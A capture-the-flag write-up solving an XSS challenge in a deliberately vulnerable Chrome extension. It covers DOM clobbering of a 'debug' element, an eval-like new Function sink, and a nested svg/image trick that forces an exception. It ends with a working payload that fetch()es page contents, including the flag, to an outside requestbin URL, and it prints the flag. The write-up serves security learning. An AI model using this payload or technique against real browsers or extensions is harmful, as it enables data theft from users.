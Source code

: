 # Warm Cockles
## 1000 Points // 2 Solves
_if someone provides the challenge description to me that would be highly welccome_

_didn't get the free char kway teow, very sad._
### Hints
- XSS
- There are several contexts in which you need to perform XSS. You need to exploit them all.
- ``dataset`` seems awfully empty for a dataset... maybe there was another reason why it was chosen

_You can access a our instance of the challenge here: http://de.irscybersec.tk:13337_

# Solution

## First Look
We know that this is a Chrome extension, so the first thing we need to do is install it. To install Google Chrome,
1. Navigate to https://chrome.com
2. Depending on whether you like being watched, turn on or off the checkmark to send telemetry data to Google
	* Note that this probably does not do anything anyways, resistance is futile
3. Click the Download button, or the translation of that in your preferred language
4. Double click (use the Mouse to click on the Icon two times in rapid succession) on the installer
5. Wait for the progress bar to reach completion
6. You now have Google Chrome installed

You can now decide that I'm an idiot and go to chrome://extensions, enable developer mode, and drag-and-drop the ``extensions`` folder into the window. The purpose of the extension should be very obvious the instant we go to a different website:

![Wow!! All the cockles](first-look.png)
_The extension converts any image found on the website to show a picture of warm cockles - how nice!_

This writeup will go over how to solve this challenge, and a few ways to debug Chrome extensions on the way.

## Peering into the Code™
### Server
The server in this case is pretty simple: it visits our page on ``/visit``, and there is a flag endpoint on a different port (``http://localhost:12345/hfqewfhq9hfeqe08fh9qwe8qw89r7098237q4589yuqowiearhfoaisdfaidlfh89ewry43.html``). However, before going to ``/visit``, the browser  opens the flag page in a different tab. Our objective, as stated, is to exfiltrate data from this page. Given that one of the hints was that it was an XSS attack, we most likely need to perform an XSS attack.

### Extension
This is where the vulnerability lies. We can see where the XSS will probably occur right off the bat in ``contentScript.js``:
```js
chrome.storage.onChanged.addListener(function(changes, namespace) {
	console.log(changes)
	var storageChange = changes.count;
	h1.innerHTML =  `Jamus Lim has served ${storageChange.newValue} warm cockles so far!`
});
```
Whenever an entry is updated in the Chrome extension storage API, an event that updates the total count on each page, which is unfiltered, is updated. This gives the very obvious attack vector of updating ``count`` in ``chrome.storage``.

Investigating further, we see that the value is only written to in line 60, to ``count``. Unfortunately, it was quickly determined that this was not a possible attack as ``count`` was only updated by the code itself by ``++``. This isn't Defcon so we will not be going into how to break V8 today.

Hence, we need to find another way to set the value, likely by RCE (is it RCE if I execute code locally?). JavaScript RCE usually occurs with ``eval`` or something similar, and here we have:

```js
catch (err) {
	// do something about the error in debug mode
	if (typeof debug !== "undefined") {
		new Function('return ' + debug.dataset.print)()(err)
		document.location = debug.dataset.cockles ? debug.dataset.cockles : "https://www.asiaone.com/sites/default/files/styles/a1_600x316/public/original_images/Jul2020/200708_jamus_facebook.jpg?h=c9f93661&itok=KFRKR2k2";
	} else {
		console.log(err);
	}
}
```

The ``new Function()`` block is vulnerable! We can control ``debug.dataset.print`` (next paragraph), so all we need to do is write a payload that sets this to ``chrome.storage.sync.set({count: `<XSS PAYLOAD>`});``. This would trigger the ``chrome.storage`` update event, leading to the XSS being written to the page.

How we control ``debug.dataset.print`` was given to us in a hint - the name ``dataset`` was not a random name, and was specially chosen for this challenge. The ``dataset`` property is used to access certain attributes in HTML attributes, [those beginning with ``data``](https://developer.mozilla.org/en-US/docs/Web/API/HTMLOrForeignElement/dataset). Using [Named Access on the ``window`` Object](https://html.spec.whatwg.org/multipage/window-object.html#named-access-on-the-window-object), we can create an element with ``id=debug`` and ``data-print=<XSS PAYLOAD>``. This part of the challenge is heavily based on existing web programming knowledge.

Unfortunately, there is one more hurdle to cross: the ``catch`` block is only run in an exception - how can we trigger an exception?

### Causing an Exception
To me, the code that stood out to me the most was:

```javascript
// get all <svg> tags
var svgs = document.getElementsByTagName("svg");
for(var i=0, l=svgs.length;i<l;i++) {
	svgs[i].innerHTML = `<image href="${cockles}" width="100%"/>`;
	svgs[i].setAttribute("preserveAspectRatio", "none");
	c += 1;
}

// get all <image> tags
var images = document.getElementsByTagName("image");
for(var i=0, l=svgs.length;i<l;i++) {
	images[i].href = cockles;
	c += 1;
}
```

The other loops were all programmed with the condition ``l<itself``, whereas this is with ``l<somethingelse``. This leads to the conclusion that if somehow, there were fewer ``<image>`` tags than ``<svg>`` tags, we could cause an exception when ``href`` of ``undefined`` is set.

However, how could there be fewer ``<image>`` than ``<svg>``s, when the content of each ``<svg>`` is set to have an ``<image>`` first?

My brain is wired to be stupid and I thought: what if I could delete the ``<svg>`` tag before we reach the for loop? Unfortunately for me, we were no longer stuck in the i386 days and computers were slightly faster than to allow that to cause a race condition. I tried setIntervals to find and delete any ``<image>`` tags, and MutationObservers, pitting two observers against each other. In both instancess, this led to the observer firing and the ``<image>`` tags being added back into the ``<svg>`` tags, which would then result in me deleting them again, and so on. Eventually, some of them did manage to set the XSS payload, but I always hit ``MAX_WRITE_OPERATIONS_PER_MINUTE``, meaning that Chrome did not allow me to write anything else to ``chrome.storage``.

Fortunately, there is a much more reliable and elegant way of causing an exception. ``<svg><image><svg></svg></image></svg>`` would be counted as 2 SVG elements existing, yet after the ``innerHTML`` of both are set, there will only be one ``<image>`` tag created, as the inner ``<svg>`` tag is overwritten. This means that the extension tries to set ``images[1].href`` even though ``images.length = 1``, causing an exception

### Payload
Now, all that's left is to write an XSS payload:
```html
<svg><image><svg></svg></image></svg> <!-- raise exception -->
<div id=debug data-print='_ => {document.body.innerHTML = ""; const a = "`https://requestbin.io/vy7m0ovy/?${document.body.innerHTML}`"; chrome.storage.sync.set({count: `<video src=qwer onerror="fetch(${a})">`}); document.location="http://127.0.0.1:12345/hfqewfhq9hfeqe08fh9qwe8qw89r7098237q4589yuqowiearhfoaisdfaidlfh89ewry43.html"}'</div>
```

Expanding the JavaScript:
```js
document.body.innerHTML = ""; // i think this prevented the infinite loop somehow?
const a = "`https://requestbin.io/vy7m0ovy/?${document.body.innerHTML}`"; // send the innerHTML of every page on which this executes to our bin, which would include the flag page
chrome.storage.sync.set({count: `<video src=qwer onerror="fetch(${a})">`}); // XSS payload - <script> cannot be used directly as innerHTML does not execute scripts
document.location="http://127.0.0.1:12345/hfqewfhq9hfeqe08fh9qwe8qw89r7098237q4589yuqowiearhfoaisdfaidlfh89ewry43.html" // redirect to flag page immediately after updating to prevent an infinite loop from forming
```

The flag will then be sent to the request bin.

# Flag
CTFSG{warm_cockles_now_become_cold_alr_lol}